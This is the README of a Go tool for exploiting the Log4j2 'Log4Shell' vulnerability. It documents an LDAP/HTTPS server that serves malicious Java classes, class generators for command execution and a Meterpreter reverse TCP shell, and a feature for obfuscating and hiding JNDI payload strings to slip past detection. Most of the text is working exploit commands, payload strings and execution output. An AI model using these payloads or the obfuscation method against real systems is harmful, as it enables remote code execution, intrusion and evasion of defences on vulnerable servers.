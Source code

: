 # Log4Shell
 [![GitHub Actions](https://github.com/For-ACGN/Log4Shell/workflows/Go/badge.svg)](https://github.com/For-ACGN/Log4Shell/actions)
 [![Go Report Card](https://goreportcard.com/badge/github.com/For-ACGN/Log4Shell)](https://goreportcard.com/report/github.com/For-ACGN/Log4Shell)
 [![GoDoc](https://godoc.org/github.com/For-ACGN/Log4Shell?status.svg)](http://godoc.org/github.com/For-ACGN/Log4Shell)
 [![License](https://img.shields.io/github/license/For-ACGN/Log4Shell.svg)](https://github.com/For-ACGN/Log4Shell/blob/master/LICENSE)\
 Check, exploit, generate class, obfuscate, TLS, ACME about log4j2 vulnerability in one Go program. 

## Feature
 * Only one program and easy deployment
 * Support common operating systems
 * Support multi Java class files
 * Support LDAPS and HTTPS server
 * Support ACME to sign certificate
 * Generate class without java compiler
 * Support obfuscate malicious(payload)
 * Hide malicious(payload) string
 * Add secret to protect HTTP server
 * Add token to fix repeat execute payload

## Usage
 ### Start Log4Shell server
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### Start Log4Shell server with TLS
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)

 ### Start Log4Shell server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)

 ### Generate Java class file
   ```
   Execute(no output):
     Log4Shell.exe -gen "execute" -args "-cmd calc" -class "Test"
     
   System(with output):
     Log4Shell.exe -gen "system" -args "-bin cmd -args \"/c net user\"" -class "Test"
     
   ReverseTCP(java/meterpreter/reverse_tcp):  // template will be open source after some time
     Log4Shell.exe -gen "reverse_tcp" -args "-host 127.0.0.1 -port 9979" -class "Test"
   
   The generated class file will be saved to the payload directory(can set output flag)
   ```

 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/Calc}"
   ```
   ```
   raw: ${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}

   ${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-
   da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo
   @-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.m
   Q:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s
   :-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}

   Each string can only be used once, or wait 20 seconds.
   ```
   ```
   When obfuscate malicious(payload) string, log4j2 package will repeat execute it, the number of
   repetitions is equal the number of occurrences about string "${". The LDAP server add a simple
   token mechanism for prevent it. 
   ```
   
  ### Hide malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://127.0.0.1:3890/Calc}" -hide
   ```
   ```
   raw: ${jndi:ldap://127.0.0.1:3890/Calc$YG=.z[.od7rH0XpE}
   ```
   ```
   Execute VulApp:
   
   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>D:\Java\jdk1.8.0_121\bin\java -jar 
   vulapp.jar ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:
   -l}d${SaS-TmMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6B
   m:-}${W1eelS:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:
   5h=5SqK-p(X9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=
   ${*E-5M:-.z[}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC
   :.XYPyzv6-sPH.]*Ls:$@Q:-XpE}}
   ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:-l}d${SaS-T
   mMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6Bm:-}${W1eel
   S:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:5h=5SqK-p(X
   9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=${*E-5M:-.z
   [}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC:.XYPyzv6-s
   PH.]*Ls:$@Q:-XpE}}
   15:49:14.676 [main] ERROR log4j - XpE}

   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>
   ```
   ```
   The Logger will only record a part of raw string "15:49:14.676 [main] ERROR log4j - XpE}",
   and repeat execute will not appear(I don't know why this happened).
   ```

## Check
 * start Log4Shell server
 * send ```${jndi:ldap://1.1.1.1:3890/Nop}```
 * send ```${jndi:ldaps://example.com:3890/Nop}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/Meterpreter}```
 * send ```${jndi:ldaps://example.com:3890/Meterpreter}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/Calc}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -args string
        arguments about generate Java class file
  -auto-cert
        use ACME client to sign certificate automatically
  -class string
        specify the new class name
  -gen string
        generate Java class file with template name
  -hide
        hide obfuscated malicious(payload) string in log4j2
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -no-token
        not add random token when use obfuscate
  -obf string
        obfuscate malicious(payload) string
  -output string
        generated Java class file output path
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)
